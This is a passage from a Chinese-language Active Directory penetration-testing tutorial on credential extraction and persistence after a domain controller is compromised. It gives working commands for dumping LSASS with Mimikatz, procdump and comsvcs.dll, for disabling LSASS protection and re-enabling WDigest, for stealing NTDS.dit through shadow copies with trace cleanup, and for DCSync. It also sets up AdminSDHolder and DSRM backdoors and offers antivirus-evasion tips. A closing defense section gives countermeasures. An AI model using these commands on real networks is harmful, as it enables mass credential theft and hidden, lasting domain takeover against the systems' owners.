### 阶段六：凭据提取与持久化

获得域控权限后，最后一步是提取全域凭据和建立持久化机制。

#### LSASS 内存转储

LSASS（Local Security Authority Subsystem Service）进程存储着当前所有活跃会话的凭据，包括明文密码、NTLM 哈希和 Kerberos 票据。

```powershell
# ===== 方法一：Mimikatz（直接提取） =====
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

# 输出示例：
# Username : Administrator
# Domain   : MEGACORP
# NTLM     : e0fb1fb85756c24235ff238cbe81fe00
# SHA1     : ...
# Password : your_password123  (如果 WDigest 开启)

# ===== 方法二：Procdump 转储 + 离线提取 =====
# 当 Mimikatz 被杀毒软件拦截时，使用合法的 Sysinternals 工具转储
procdump.exe -accepteula -ma lsass.exe C:\temp\lsass.dmp

# 将 lsass.dmp 传回攻击机，使用 pypykatz 离线提取
pypykatz lsa minidump lsass.dmp

# ===== 方法三：Comsvcs.dll =====
# 不需要上传任何工具，利用系统自带的 DLL
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <lsass_pid> C:\temp\lsass.dmp full

# ===== 方法四：LSASS 保护绕过 =====
# 如果目标开启了 Credential Guard 或 RunAsPPL（LSASS 保护）
# 需要先禁用保护再提取
# 检查 LSASS 保护状态
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL

# 禁用保护（需要管理员权限）
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 0 /f
# 重启后生效
```

> **WDigest 明文密码**：Windows 8.1 及更早版本默认启用 WDigest，将明文密码存储在 LSASS 内存中。Windows 10+ 默认禁用，但攻击者可以通过修改注册表重新启用：
> ```powershell
> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
> ```
> 需要用户重新登录后才会生效。

#### NTDS.dit 提取

NTDS.dit 是 AD 的数据库文件，存储着全域所有对象的凭据信息。直接提取 NTDS.dit 可以一次性获得所有域用户的哈希。

```powershell
# ===== 方法一：VSS（卷影副本） =====
# 在域控上创建 VSS 快照
vssadmin create shadow /for=C:

# 从快照中复制 NTDS.dit 和 SYSTEM 注册表文件
copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit" C:\temp\ntds.dit
copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" C:\temp\SYSTEM

# 删除快照（清理痕迹）
vssadmin delete shadows /for=C: /quiet
```

```bash
# ===== 方法二：使用 secretsdump 离线提取 =====
# 在攻击机上运行
impacket-secretsdump \
    -ntds /tmp/ntds.dit \
    -system /tmp/SYSTEM \
    LOCAL

# 输出格式：
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00:::
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:hash:::
# john.doe:1104:aad3b435b51404eeaad3b435b51404ee:hash:::

# ===== 方法三：DCSync（不需要文件传输） =====
# 直接通过 DRSUAPI 协议提取，不需要在域控上操作
impacket-secretsdump megacorp.local/Administrator:'your_password'@10.10.10.10
```

#### 持久化机制

域控沦陷后，攻击者会建立持久化机制，确保即使密码被更改也能重新获得域控权限。

| 技术 | 原理 | 隐蔽性 | 持续性 |
|------|------|--------|--------|
| Golden Ticket | 使用 krbtgt 哈希伪造 TGT | 高 | 直到 krbtgt 密码被更改两次 |
| Skeleton Key | 注入域控 LSASS，添加万能密码 | 中 | 域控重启后失效 |
| AdminSDHolder | 修改 AdminSDHolder ACL，权限自动传播 | 高 | 永久 |
| DSRM 后门 | 修改 DSRM 账户登录模式 | 高 | 永久 |
| 万能密码 GPO | 通过 GPO 推送后门脚本 | 低 | GPO 刷新时持续 |

```powershell
# ===== AdminSDHolder 持久化 =====
# AdminSDHolder 容器的 ACL 会每60分钟传播到所有受保护组
# 向 AdminSDHolder 添加一个用户的完全控制权限
Add-ADPermission -Identity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" `
    -User "backdoor_user" `
    -AccessRights GenericAll

# ===== DSRM 后门 =====
# DSRM（Directory Services Restore Mode）是域控的灾难恢复模式
# DSRM 账户密码在 DC 安装时设置，通常长期不更改

# 允许 DSRM 账户通过网络登录
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" `
    -Name "DsrmAdminLogonBehavior" -Value 2

# 使用 DSRM 账户哈希进行 PtH
# 需要先提取 DSRM 哈希：ntdsutil → set dsrm password → 系统文件
```

---

### 攻击链完整总结

下表展示了一次完整的域渗透攻击链各阶段的典型耗时和所需权限：

| 阶段 | 技术 | 所需权限 | 典型耗时 | 检测难度 |
|------|------|----------|----------|----------|
| 初始访问 | 密码喷洒 | 无 | 1-2 小时 | 低 |
| 信息收集 | PowerView + BloodHound | 域用户 | 30 分钟 | 极低 |
| 凭据获取 | Kerberoasting | 域用户 | 1-48 小时（破解） | 低 |
| 权限提升 | UAC 绕过 + 服务提权 | 本地用户 | 15 分钟 | 中 |
| 域提权 | DCSync | 域管理员 | 5 分钟 | 中 |
| 横向移动 | PtH / PtT | 域管理员 | 10 分钟 | 中 |
| 持久化 | Golden Ticket | 域管理员 | 5 分钟 | 高 |
| 凭据提取 | NTDS.dit | 域管理员 | 30 分钟 | 中 |

---

### 防御策略

理解攻击是为了更好地防御。以下是针对每个攻击阶段的防御建议：

| 攻击技术 | 防御措施 | 优先级 |
|----------|----------|--------|
| 密码喷洒 | 强密码策略 + 账户锁定 + 监控批量登录失败 | 高 |
| Kerberoasting | gMSA + 禁用 RC4 + 长密码 + 监控异常 TGS 请求 | 高 |
| AS-REP Roasting | 确保所有用户启用预认证 | 中 |
| DCSync | 严格控制 Replication 权限 + 监控非 DC 的复制请求 | 高 |
| Golden Ticket | 定期更改 krbtgt 密码（两次）+ 监控异常 TGT | 高 |
| PtH/PtT | 禁用 NTLM + 委派限制 + Credential Guard | 中 |
| LSASS 提取 | Credential Guard + RunAsPPL + EDR 监控 | 高 |
| UAC 绕过 | 监控注册表写入 HKCU\Software\Classes | 中 |
| 横向移动 | 网络分段 + 最小权限 + PAM + 监控 SMB/WMI 远程执行 | 高 |

**核心防御原则**：

1. **最小权限原则**：域管理员账户不应用于日常操作。使用 Tier 0/1/2 分层管理模型，Tier 0（域控、域管）的凭据永远不应出现在 Tier 1/2 机器上。
2. **监控 > 预防**：许多攻击技术利用的是合法的 AD 功能（如 LDAP 查询、Kerberos 请求），阻止它们会影响正常业务。更好的策略是建立行为基线，监控异常模式。
3. **定期审计**：定期检查 AD 中的高权限组成员、异常 ACL、SPN 配置、委派设置。BloodHound 不仅是攻击工具，也是优秀的防御审计工具。

---

### 常见问题排查

| 问题 | 可能原因 | 解决方案 |
|------|----------|----------|
| PowerView 导入失败 | 执行策略限制 | `powershell -ep bypass -f PowerView.ps1` |
| Kerberoasting 无结果 | 域中没有设置 SPN 的用户账户 | 检查 SPN：`setspn -T domain -Q */*` |
| DCSync 权限不足 | 当前用户无复制权限 | 需要先提升到 Domain Admin |
| Psexec 连接失败 | SMB 签名要求 / 防火墙 | 检查 445 端口连通性和 SMB 配置 |
| Mimikatz 被拦截 | EDR/AV 检测 | 使用内存执行（Invoke-Mimikatz）或修改版 |
| Golden Ticket 无效 | SID 或 krbtgt 哈希错误 | 重新确认域 SID 和 krbtgt 哈希 |
| LSASS 转储失败 | RunAsPPL 保护 | 修改注册表禁用后重启 |

---

### 延伸阅读

- [MITRE ATT&CK — Active Directory](https://attack.mitre.org/matrices/enterprise/windows/)：权威的攻击技术矩阵
- [ADSecurity.org](https://adsecurity.org/)：Sean Metcalf 的 AD 安全研究，域渗透防御的金标准
- [Harmj0y 博客](https://blog.harmj0y.net/)：PowerView 和 Rubeus 的作者，域安全研究的核心人物
- [The Hacker Recipes — AD](https://www.thehacker.recipes/ad/movement/overview)：系统化的 AD 攻击技术文档
- [BloodHound AD](https://github.com/BloodHoundAD/BloodHound)：攻击路径分析工具
